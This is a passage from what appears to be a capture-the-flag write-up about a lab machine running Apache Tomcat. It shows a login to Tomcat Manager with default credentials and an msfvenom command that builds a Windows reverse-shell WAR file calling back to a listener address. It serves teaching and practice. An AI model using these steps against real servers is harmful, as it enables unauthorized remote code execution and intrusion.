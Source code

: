     Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 9.66 seconds
    

### Website

#### Site

The site shows a default install of Tomcat:

![1530409432385](https://0xdfimages.gitlab.io/img/1530409432385.png)

#### Login

The default creds of “tomcat” / “s3cret” work to get access to the Tomcat
Manager Application.

![1530409477005](https://0xdfimages.gitlab.io/img/1530409477005.png)

## Exploiting Tomcat

To get a shell, I’ll use the “WAR file to deploy” section of the manager
application:

![1530409521172](https://0xdfimages.gitlab.io/img/1530409521172.png)

### Web Application Resource Files

A Web Application Resource (WAR) file is a single file container that holds
all the potential files necessary for a Java-based web application. It can
have Java Archives (.jar), Java Server Pages (.jsp), Java Servlets, Java
classes, webpages, css, etc.

The `/WEB-INF` directory inside the archive is a special one, with a file
named `web.xml` which defines the structure of the application.

Tomcat Manager makes it easy to deploy war files with a couple clicks, and
since these can contain Java code, it’s a great target for gaining execution.

### Create war File

I’ll use `msfvenon` to create a windows reverse shell that can be caught with
`nc`:

    
    
    root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.83 LPORT=9002 -f war > rev_shell-9002.war
    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No Arch selected, selecting Arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 324 bytes
    Final size of war file: 52311 bytes
    
